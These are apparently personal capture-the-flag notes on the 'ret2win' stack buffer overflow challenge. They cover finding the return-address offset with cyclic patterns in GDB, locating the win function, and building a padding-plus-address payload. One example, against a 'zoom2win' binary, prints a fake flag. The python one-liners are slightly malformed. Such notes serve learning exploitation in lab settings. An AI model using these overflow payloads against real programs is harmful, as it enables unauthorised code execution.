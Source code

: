 ### N o T e S

---

In ret2win, we need to execute the win function to get the flag by overwriting the EIP.

```py
| Finding the offset using GDB for the return address |
- file <filename>
- info functions
- cyclic 100
- run and check the RIP register which is the instruction pointer
- cyclic -l <the four characters found>
- Find the return address, objdump, ghidra

python3 -c 'print("A"*offset+"return address")' > payload
./ret2win < payload
```

```py
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Control the EIP or RIP

Alternatively, inside gdb use pattern create 200
```



Find the offset we use the value in `RSP` register.

- First two steps, add permissions using chmod  +x file name.  
- Then, check the options and protections enabled using checksec --file.  
- Aim of the pwn challenge is generally to overflow the buffer and overwrite the return address.
- It redirects the program towards a function which outputs the flag.

#### Things to do in classic ret2win :

Use Ghidra and GDB. 

```py
Steps : 
disassemble flag
(assume offset is 40)

We use the memory address of the first function in disassemble flag
(assume it is 0x0000000000401196)

python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' 

(add this to a file payload)
python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' > payload

echo "Fake_flag" > flag.txt
(Dummy flag for local file)

Now, run < payload 
(fake_flag will be printed)

./zoom2win < payload
fake_flag Segmentation fault

Now when we run the netcat command with the payload we get our flag.
```

---

Thank you

